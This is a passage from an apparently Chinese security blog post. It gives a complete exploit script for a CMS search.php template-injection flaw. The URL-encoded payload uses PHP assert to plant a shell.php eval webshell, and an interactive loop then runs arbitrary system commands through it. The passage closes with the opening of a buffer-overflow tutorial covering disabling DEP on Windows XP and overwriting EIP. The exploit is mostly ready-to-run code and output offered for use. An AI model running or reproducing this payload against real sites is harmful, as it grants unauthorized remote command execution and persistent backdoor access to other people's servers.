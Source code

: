 先得到shell，如果没得到的话呢就直接返回，如果得到的话呢就输入执行的命令，然后注入到shell.txt里面，最终得到结果。

#### 完整代码

```js
#define getshellpayload = searchtype=5&order=%7D%7Bend%20if%7D%7Bif%3A1%29print%5Fr%28%24%5FPOST%5Bfunc%5D%28%24%5FPOST%5Bcmd%5D%29%29%3B%2F%2F%7D%7Bend%20if%7D&func=assert&cmd=fwrite%28fopen%28%22shell.php%22%2C%22w%22%29%2C%27%3C%3Fphp%20%40eval%28fread%28fopen%28%22shell.txt%22%2C%22r%22%29%2Cfilesize%28%22shell.txt%22%29%29%29%3B%20%3F%3E%27%29
#define injectionTxtpayloadqian = searchtype=5&order=%7D%7Bend%20if%7D%7Bif%3A1%29print%5Fr%28%24%5FPOST%5Bfunc%5D%28%24%5FPOST%5Bcmd%5D%29%29%3B%2F%2F%7D%7Bend%20if%7D&func=assert&cmd=fwrite%28fopen%28%22shell.txt%22%2C%22w%22%29%2C%27system%28%22
#define injectionTxtpayloadhou = %22%29%3B%27%29
function injectionTxt(url,cmd){
	return HttpPost(url."/search.php",injectionTxtpayloadqian.URLEncode(cmd).injectionTxtpayloadhou,"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0");
}
function GetShell(url){
	return HttpPost(url."/search.php",getshellpayload,"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0");
}
function GetRes(url){
	res = HttpGet(url."/shell.php","User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0");
	return res[0];
}
function main(args)
{
	print("请输入要测试的URL:");
	webUrl = input();
	res = GetShell(webUrl);
	if(StrFindStr(res[1],"200 OK",0) == "-1"){
		print("getshell失败");
		return "";
	}
	while(1 == 1){
		print("请输入要执行的命令(输入exit退出)");
		cmd = input();
		if(cmd == "exit"){
			break;
		}
		injectionTxt(webUrl,cmd);
		print(GetRes(webUrl));
	}
	
}
```

看一下最终的执行结果：

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210308140332854.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzE4MzkwNTYx,size_16,color_FFFFFF,t_70#pic_center)

## 缓冲区溢出
首先我们先要系统是XP没有开启DEP（开启的话呢需要rop绕过会有些麻烦，这里不详细将如何绕过）
如何检测你的虚拟机开没开DEP，首先我们打开我的电脑->属性：
![](data/attachment/album/202103/06/010612rdc8ciyy3abc0pzt.jpg)
如果那个noexecute=AlwaysOff的话呢说明这个DEP没有开启，系统是不会检测边界问题的，其实说白了就和我们当时玩XP内核用调试模式打开XP时候配置的boot.ini修改的位置一样，只不过我们这个时候是要更改noexecute这个属性。
然后重启一下，我们还是运行我们调试的程序。
这个时候我们要来做模糊测试了，首先我们的思路是这样子的，他既然没有检测我们的输入是否存在边界，那么我们就可以考虑，我们输入的内容会不会溢出到EIP这个寄存器呢？没错，这个就是我们想到的，那么我们如何检测呢？我们首先先用DBG附加我们的程序。
这里我们不能用OD，因为OD会捕获这个EIP位置的异常，我们需要设置，但是我怕我这里说了，会有点偏离文章主题，所以我们用一个`Immunity Debugger`，这个会把这个异常反馈给我们，我们用这个调试器附加进程，这个方便之处他可以查看进程开发的端口，容易选择，选择开放8888这个端口的进程。
